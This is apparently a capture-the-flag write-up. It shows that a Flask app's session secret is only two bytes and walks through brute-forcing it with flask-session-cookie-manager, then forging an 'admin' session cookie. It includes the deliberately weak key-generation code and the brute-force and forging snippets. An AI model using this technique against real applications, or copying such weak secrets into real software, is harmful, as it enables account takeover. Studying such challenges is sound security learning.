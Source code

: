 Looking at the code in `app.py` we see that the secret is just two bytes long:

```
def generate_random_key():
    key = randbytes(1)
    key += choice(ascii_lowercase).encode("ascii")
    return key
```

This makes it brute forceable. We can use https://github.com/noraj/flask-session-cookie-manager to do this.

Find the right key:
```
for x in range(256):
  for y in range(256):
    print(x,y,FSCM.decode(cookie_value, chr(x)+chr(y)))
```

Once we know the two bytes, we create a new session with that key and `admin` as name:
```
print(FSCM.encode(chr(19)+chr(120), "{'name': 'admin'}"))
```
